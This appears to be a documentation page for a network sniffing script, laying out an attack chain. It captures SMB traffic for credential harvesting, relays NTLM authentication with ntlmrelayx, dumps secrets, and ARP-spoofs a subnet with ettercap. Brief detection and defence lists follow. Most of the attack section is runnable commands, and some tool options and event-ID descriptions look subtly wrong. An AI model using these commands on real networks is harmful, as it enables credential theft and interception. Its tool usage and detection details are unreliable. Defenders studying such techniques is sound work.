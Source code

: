 ## Attack Chain Integration

### Network Reconnaissance and Credential Harvesting
```bash
# Step 1: Start packet capture for credential harvesting
python3 sniff.py eth0 -filter "tcp port 445 or tcp port 139" -pcap smb_creds.pcap

# Step 2: Force authentication attempts (separate terminal)
python3 ntlmrelayx.py -t smb://target -smb2support

# Step 3: Analyze captured traffic for credentials
python3 secretsdump.py -pcap smb_creds.pcap
```

### Man-in-the-Middle Attack Support
```bash
# Step 1: Set up network interception
ettercap -T -M arp:remote /192.168.1.1// /192.168.1.0-255//

# Step 2: Capture authentication traffic
python3 sniff.py eth0 -filter "tcp port 445" -pcap mitm_capture.pcap
```

## Prerequisites
- Root/Administrator privileges for packet capture
- Python 3.x with Impacket and pcapy libraries installed
- Network interface access (promiscuous mode capability)
- Sufficient storage space for captured packets

## Detection Considerations
- **Event IDs**: 
  - Event ID 5154 (Windows Filtering Platform packet drop)
  - Event ID 5156 (Connection allowed)
- **Network Indicators**: 
  - Network interface in promiscuous mode
  - Unusual packet capture processes
  - Large amounts of network data being processed
- **Process Indicators**: 
  - Python processes with elevated privileges
  - High CPU usage during packet processing
- **File Indicators**: 
  - Large capture files (.pcap) being created
  - Temporary packet storage files
- **Registry Indicators**: 
  - No direct registry modifications

## Defensive Measures
- Monitor for network interfaces entering promiscuous mode
- Implement network segmentation to limit packet visibility
- Use encrypted protocols (TLS/SSL) to protect data in transit
- Deploy network access control (NAC) solutions
- Regular monitoring of privileged user activities
- Network intrusion detection systems (NIDS)
